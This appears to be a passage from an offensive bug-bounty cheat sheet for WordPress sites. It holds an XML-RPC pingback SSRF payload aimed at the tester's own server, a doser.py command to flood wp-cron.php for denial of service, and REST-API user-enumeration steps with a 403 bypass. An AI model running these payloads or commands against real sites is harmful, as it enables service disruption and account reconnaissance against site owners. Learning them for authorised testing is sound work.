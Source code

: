 all using with XML payloads

Full blown ssrf payload:

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

automated tool:[https://github.com/nullfd/xmlrpc-scan](https://github.com/nullfd/xmlrpc-scan).

### Cron-job

you can perform Denial of service with cron-job

check [site.com/wp-cron.php](http://site.com/wp-cron.php)

see a blank page with 200 status

may use doser tool to perform DOS

python3 [doser.py](http://doser.py/) -t 999 -g '[https://site.com/wp-cron.php](https://site.com/wp-cron.php)'

## **WP User Enumeration**

we have 3 way to report user enumeration in Wordpress sites:

### 1- rest endpoint Api user enumeration

you can also see users as a Json file

CVE-2017-5487

- visit site.com/wp-json/wp/v2/users/
- You will see json data with user info in response
- if you got 403 error you can use this bypass

![Untitled](Untitled.png)

- try `http://target.com/?rest_route=/wp/v2/users`

